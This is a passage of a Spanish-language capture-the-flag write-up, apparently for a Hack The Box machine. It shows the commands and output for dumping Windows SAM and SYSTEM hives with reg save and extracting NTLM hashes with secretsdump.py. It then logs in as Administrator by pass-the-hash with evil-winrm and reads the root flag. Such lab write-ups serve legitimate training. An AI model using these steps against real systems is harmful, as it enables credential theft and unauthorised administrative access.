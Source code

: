 - El archivo SYSTEM contiene la clave del registro necesaria para descifrar el SAM.

Estos archivos están ubicados en:


```ruby
C:\Windows\System32\config\SAM
C:\Windows\System32\config\SYSTEM
```

Usando `reg save`  para extraer los hives del registro:

```ruby
reg save hklm\sam C:\Users\Public\sam.save
reg save hklm\system C:\Users\Public\system.save
```

Descargar los archivos

Desde `Evil-WinRM`, usa el comando download:

```ruby
download C:\Users\Public\sam.save
download C:\Users\Public\system.save
```

Ahora desde linux ejecutamos
```ruby
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```


Esto nos mostrará el hash `NTLM` del administrador, el cual usaremos para conectarnos

```ruby
❯ secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[-] LSA hashes extraction failed: [Errno 2] No such file or directory: 'security.save'
[*] Cleaning up... 
```

Nos conectamos usando `Evil-WinRM`:


```ruby
❯ evil-winrm -i 10.10.11.35 -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341

                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

Procedemos a leer la flag
```ruby
*Evil-WinRM* PS C:\Users\Administrator\Documents> type  ..\Desk*\roo*
e5****************************76
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```